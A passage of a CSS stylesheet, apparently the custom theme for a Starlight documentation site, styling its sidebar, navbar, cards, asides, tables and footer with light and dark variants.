  margin-bottom: 1.5rem;
}

.sl-markdown-content h2 {
  margin-top: 2.5rem;
  margin-bottom: 1rem;
}

.sl-markdown-content h3 {
  margin-top: 2rem;
  margin-bottom: 0.75rem;
}

.sl-markdown-content p {
  margin-bottom: 1.25rem;
}

/* ============================================
   SIDEBAR & NAVIGATION
   Clean styling inspired by React Native docs
   ============================================ */

/* Base transition for all sidebar links */
.sidebar-content a {
  transition:
    background-color 0.15s ease,
    color 0.15s ease,
    border-color 0.15s ease;
  border-radius: 4px;
}

/* Top-level sidebar items (Diataxis categories) */
.sidebar-content > ul > li > details > summary,
.sidebar-content > ul > li > a {
  font-weight: 700;
  font-size: 0.9375rem;
  padding: 0.5rem 0.75rem;
}

/* Nested sidebar items */
.sidebar-content ul ul a {
  font-weight: 500;
  font-size: 0.875rem;
  padding: 0.375rem 0.75rem;
  padding-left: 1.5rem;
  border-left: 3px solid transparent;
}

/* Deep nested items */
.sidebar-content ul ul ul a {
  font-weight: 400;
  font-size: 0.8125rem;
  padding-left: 2.25rem;
}

/* Active state - thin left accent bar */
.sidebar-content a[aria-current='page'] {
  background-color: rgba(140, 140, 255, 0.08);
  color: var(--sl-color-accent);
  border-left-color: var(--sl-color-accent);
  font-weight: 600;
}

:root[data-theme='dark'] .sidebar-content a[aria-current='page'] {
  background-color: rgba(140, 140, 255, 0.1);
  color: var(--sl-color-accent-high);
  border-left-color: var(--sl-color-accent);
}

/* Hover states */
.sidebar-content a:hover {
  background-color: rgba(0, 0, 0, 0.05);
}

:root[data-theme='dark'] .sidebar-content a:hover {
  background-color: rgba(255, 255, 255, 0.05);
}

/* Section spacing */
.sidebar-content > ul > li {
  margin-top: 0.75rem;
}

.sidebar-content > ul > li:first-child {
  margin-top: 0;
}

/* Lighter chevrons/carets */
.sidebar-content summary::marker,
.sidebar-content details > summary::after {
  opacity: 0.4;
}

.sidebar-content summary:hover::marker,
.sidebar-content details > summary:hover::after {
  opacity: 0.6;
}

/* ============================================
   LAYOUT - Full width content
   ============================================ */
.content-panel {
  width: 100%;
  margin: 0 auto;
}

/* Full-width workflow diagram iframe */
.sl-markdown-content > iframe:first-child {
  width: 100vw !important;
  margin-left: calc(50% - 50vw);
  border-radius: 0 !important;
  border-left: none !important;
  border-right: none !important;
}

/* Main content area */
main {
  min-width: 0;
}

.sl-markdown-content {
  min-width: 0;
  overflow-wrap: break-word;
  word-wrap: break-word;
}

/* Hide breadcrumbs if desired */
/* Uncomment to hide:
nav[aria-label="Breadcrumb"] {
  display: none;
}
*/

/* ============================================
   NAVBAR
   ============================================ */
header.header {
  padding: 0 !important; /* Remove all padding for full-width banner */
  box-shadow: 0 1px 2px rgba(0, 0, 0, 0.1);
  height: var(--sl-nav-height) !important;
  display: flex;
  flex-direction: column;
}

header.header .header.sl-flex {
  padding: 0 1.5rem;
  height: calc(var(--sl-nav-height) - var(--ai-banner-height));
  width: 100%;
}

:root[data-theme='dark'] header.header {
  box-shadow: 0 1px 3px rgba(0, 0, 0, 0.3);
}

.site-title {
  font-weight: 700;
  margin-left: 0;
  padding-left: 0;
}

/* Logo sizing - constrain to reasonable size */
.site-title img {
  height: 2.5rem;
  width: auto;
}

/* Social links styling */
.social-icons a {
  padding: 0.5rem;
  transition:
    background-color 0.15s ease,
    color 0.15s ease;
  border-radius: 6px;
}

.social-icons a:hover {
  background-color: rgba(0, 0, 0, 0.05);
}

:root[data-theme='dark'] .social-icons a:hover {
  background-color: rgba(255, 255, 255, 0.05);
}

/* ============================================
   CARDS
   ============================================ */
.card {
  border-radius: 12px;
  border: 2px solid var(--sl-color-gray-5);
  background-color: var(--sl-color-bg);
  box-shadow: 0 2px 8px rgba(0, 0, 0, 0.08);
  transition:
    transform 0.2s ease,
    box-shadow 0.2s ease,
    border-color 0.2s ease;
}

.card:hover {
  transform: translateY(-3px);
  border-color: var(--sl-color-accent);
  box-shadow: 0 8px 24px rgba(140, 140, 255, 0.15);
}

:root[data-theme='dark'] .card {
  background: linear-gradient(145deg, rgba(30, 41, 59, 0.6), rgba(15, 23, 42, 0.8));
  border-color: rgba(140, 140, 255, 0.2);
  box-shadow: 0 2px 8px rgba(0, 0, 0, 0.3);
}

:root[data-theme='dark'] .card:hover {
  border-color: rgba(140, 140, 255, 0.5);
  box-shadow:
    0 8px 32px rgba(140, 140, 255, 0.2),
    0 0 0 1px rgba(140, 140, 255, 0.1);
}

/* Starlight card grid */
.sl-link-card {
  border-radius: 12px;
  border: 2px solid var(--sl-color-gray-5);
  transition:
    transform 0.2s ease,
    box-shadow 0.2s ease,
    border-color 0.2s ease;
}

.sl-link-card:hover {
  transform: translateY(-3px);
  border-color: var(--sl-color-accent);
}

:root[data-theme='dark'] .sl-link-card {
  border-color: rgba(140, 140, 255, 0.2);
}

:root[data-theme='dark'] .sl-link-card:hover {
  border-color: rgba(140, 140, 255, 0.5);
}

/* ============================================
   BUTTONS
   ============================================ */
.sl-flex a[href],
button {
  transition:
    background-color 0.2s ease,
    transform 0.1s ease;
}

.sl-flex a[href]:hover,
button:hover {
  transform: translateY(-1px);
}

/* ============================================
   MISC ENHANCEMENTS
   ============================================ */

/* Smooth scrolling */
html {
  scroll-behavior: smooth;
}

/* Better link underlines */
.sl-markdown-content a:not(.sl-link-card) {
  text-decoration-thickness: 1px;
  text-underline-offset: 2px;
}

/* Table styling */
table {
  display: table;
  width: 100%;
}

:root[data-theme='dark'] table {
  border-color: rgba(140, 140, 255, 0.1);
}

:root[data-theme='dark'] table th {
  background-color: rgba(140, 140, 255, 0.05);
}

:root[data-theme='dark'] table tr:nth-child(2n) {
  background-color: rgba(140, 140, 255, 0.02);
}

/* Blockquotes */
blockquote {
  border-left-color: var(--sl-color-accent);
  background-color: rgba(140, 140, 255, 0.05);
  border-radius: 0 8px 8px 0;
  padding: 1rem 1.25rem;
}

/* ============================================
   ADMONITIONS (Starlight Asides)
   Rounded, no left border bar
   ============================================ */
.starlight-aside {
  margin-bottom: 1.5rem;
  padding: 1.25rem 1.5rem;
  border-radius: 12px;
  border: none;
  border-left: 0;
  box-shadow: 0 1px 4px rgba(0, 0, 0, 0.08);
}

/* Tip aside */
.starlight-aside--tip {
  background-color: rgba(16, 185, 129, 0.08);
}

.starlight-aside--tip .starlight-aside__title {
  color: #059669;
}

:root[data-theme='dark'] .starlight-aside--tip {
  background-color: rgba(16, 185, 129, 0.12);
}

:root[data-theme='dark'] .starlight-aside--tip .starlight-aside__title {
  color: #34d399;
}

/* Note aside */
.starlight-aside--note {
  background-color: rgba(140, 140, 255, 0.08);
}

.starlight-aside--note .starlight-aside__title {
  color: #8c8cff;
}

:root[data-theme='dark'] .starlight-aside--note {
  background-color: rgba(140, 140, 255, 0.12);
}

:root[data-theme='dark'] .starlight-aside--note .starlight-aside__title {
  color: #8c8cff;
}

/* Caution aside */
.starlight-aside--caution {
  background-color: rgba(245, 158, 11, 0.1);
}

.starlight-aside--caution .starlight-aside__title {
  color: #d97706;
}

:root[data-theme='dark'] .starlight-aside--caution {
  background-color: rgba(245, 158, 11, 0.15);
}

:root[data-theme='dark'] .starlight-aside--caution .starlight-aside__title {
  color: #fbbf24;
}

/* Danger aside */
.starlight-aside--danger {
  background-color: rgba(239, 68, 68, 0.1);
}

.starlight-aside--danger .starlight-aside__title {
  color: #dc2626;
}

:root[data-theme='dark'] .starlight-aside--danger {
  background-color: rgba(239, 68, 68, 0.15);
}

:root[data-theme='dark'] .starlight-aside--danger .starlight-aside__title {
  color: #f87171;
}

/* Aside icon styling */
.starlight-aside__icon svg {
  width: 1.25rem;
  height: 1.25rem;
}

/* ============================================
   FOOTER - Minimal styling
   ============================================ */
footer {
  background-color: var(--sl-color-black);
  border-top: 1px solid var(--sl-color-hairline);
}

:root[data-theme='dark'] footer {
  background-color: #020617;
}

/* ============================================
   RESPONSIVE ADJUSTMENTS
   ============================================ */
@media (max-width: 72rem) {
  .content-panel {
    max-width: 100%;
  }
}

/* Responsive padding on navbar row only - banner stays full-width */
@media (min-width: 50rem) {
  header.header .header.sl-flex {
    padding-left: 1rem;
    padding-right: 2.5rem;
  }
}

@media (min-width: 72rem) {
  header.header .header.sl-flex {
    padding-left: 1rem;
    padding-right: 3rem;
  }
}
```

